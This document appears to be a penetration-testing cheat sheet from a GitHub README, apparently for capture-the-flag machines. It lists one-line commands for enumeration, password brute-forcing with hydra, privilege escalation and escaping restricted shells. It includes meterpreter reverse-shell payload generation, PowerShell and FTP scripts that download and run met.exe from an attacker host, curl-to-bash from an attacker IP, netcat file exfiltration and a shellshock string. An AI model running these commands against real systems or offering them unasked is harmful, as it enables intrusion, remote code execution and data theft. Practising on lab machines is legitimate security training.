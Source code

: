 ## Enum
* `nmap -Pn -n -p- -sT --min-rate 5000 {ip}` _Quick nmap all ports_
* `nmap -Pn -n -p- -sV -A {ip}` _Slow nmap all info_
* `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://{site} -r -t {n} -o gobuster.txt ` _Gobuster scan for folders with n threads_
* `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://{site} -r -t {n} -x php,asp,aspx,html -o gobuster_aspx.txt` _Gobuster scan for pages with n threads_
* `wfuzz -hw {hide rows with this number of words} --hh {hide rows with this number of chars} -hc {hide rows with this response code} -w {wordlist} {URL}/FUZZ` _Use wfuzz to enumerate pages when gobuster won't work_
* _To clone git repos from challenge machines the url from the git config file must be added to the local host file_
* _https://www.wappalyzer.com/download wappalyzer to identify technologies used on websites_
* _https://retirejs.github.io/retire.js/ find old javascript libraries with known vulns on a a page_

## Exploit
* `python -m SimpleHTTPServer 80` _Start python 2 web server on kali on port 80 in current dir_
* `python3 -m http.server 80` _Start a python 3 http server on port 80 in current directory_
* `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={ip} LPORT={port} -f exe >m.exe` _Make a standard meterpreter exe_
* `tcpdump -i {tun0} icmp` _Listen for ping requests.  Useful when testing RCE_

## Password Attacks
* `hydra -l {username} -P {password file} {base url or ip} -s{port} http-post-form "/index.php:user=^USER^&password=^PASS^:{failed string}"`  _Brute force http post login with hydra_

## Priv Esc Windows
* `powershell -command "& { (New-Object Net.WebClient).DownloadFile('http://{kali_ip}:8080/m.exe', 'c:\users\victim\desktop\m.exe') }"` _Powershell download a file_
* `systeminfo >systeminfo.txt` _Export sysinfo from windows
* `python windows-exploit-suggester.py --database 2018-09-06-mssb.xls --systeminfo sysinfo.txt` _Use exported sysinfo file to check for possible exploits using this tool https://github.com/GDSSecurity/Windows-Exploit-Suggester.git_
* `python windows-exploit-suggester.py --update` _Get new database file for exploit suggester_
* `cmd.exe /c @echo open x.x.x.x 21>c:\users\victim\desktop\ftp.txt&@echo USER anonymous>>c:\users\victim\desktop\ftp.txt&@echo anonymous>> c:\users\victim\desktop\ftp.txt&@echo binary>>c:\users\victim\desktop\ftp.txt&@echo get met.exe>>c:\users\victim\desktop\ftp.txt&@echo quit>>c:\users\victim\desktop\ftp.txt&@ftp -v -n -s:c:\users\victim\desktop\ftp.txt&@start met.exe` _Create a scirpt to download a file via ftp, then run the script, then run the downloaded file_
* [Next Gen Windows Exploit Suggester](https://github.com/bitsadmin/wesng)

## Priv Esc Linux
* `curl {kali_ip}:{port}/LinEnum.sh | /bin/bash` _Run linux enum script without dropping it on disk_
* `curl {kali_ip}:{port}/linuxprivchecker.py | python` _Run linux priv checker without dropping it on disk_
* `/sbin/getcap -r / 2>/dev/null` _Search filesytem for files with special capabilities.  Similar to suid_
* `find / -type f -name "*" -newermt 2018-09-07 ! -newermt 2018-09-08 2>/dev/null` _Find all files modified on a particular day.  Maybe same day as user flag. example show sep 7 2018_
* `ssh -L {localport}:localhost:{remoteport} {user}@{remoteip}` _Forward a port through ssh_
* `nc -w 3 {attacker ip} {port} < {filename}` _Send file with netcat_
* `nc -l -p {listen port} > {filename}` _Receive file with netcat_
* `sudo -l` _Show commands that can be run as sudo_
* `python -c 'import pty:pty.spawn("/bin/bash")'` _Get a better shell in netcat_
* `CTRZ + z -- stty raw -echo  -- fg` _Make netcat python shell interactive.  You won't see fg when it's typed.  Just hit enter._
* `wget https://raw.githubusercontent.com/jondonas/linux-exploit-suggester-2/master/linux-exploit-suggester-2.pl` _Download exploit suggester_
* `wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh` _Download linux enumeration script_
* `wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64` _Download 64 bit version of pspy for monitoring processes that might run as root_

## Pric Esc Generic
* `run post/multi/recon/local_exploit_suggester` _Check for local priv esc exploits.  Must be interacting with meterpreter session_

## Break out of limited shell 
**(Credit Gos Here https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)**
* `env` _Check environmential variables_
* `echo $PATH` _Check path for executables_
* `echo $SHELL` _What shell is in use_
* `/bin/sh` _Just run new shell_
* `export PATH=/bin:/usr/bin:$PATH` _Just add folders to PATH_
* `export SHELL=/bin/sh` _Just change shell_
* `cp /bin/sh /some/dir/from/PATH; sh` _Copy sh to a runable folder and launch it_
* `ftp, gdb, more, less, man, vi, vim, scp, awk, find` _Can all launch shells_
* `ssh restricted@x.x.x.x -t "/bin/sh"` _Execute /bin/sh before remote shell is loaded_
* `ssh restricted@x.x.x.x -t "bash --noprofile"` _Start remote shell without loading rc profile_
* `ssh restricted@x.x.x.x -t "() { :; }; /bin/bash"` _Try shell shock_
* `python -c 'import os; os.system("/bin/bash")'` _Launch shell with python_
* `perl -e 'exec "/bin/sh";'` _Launch shell with perl_
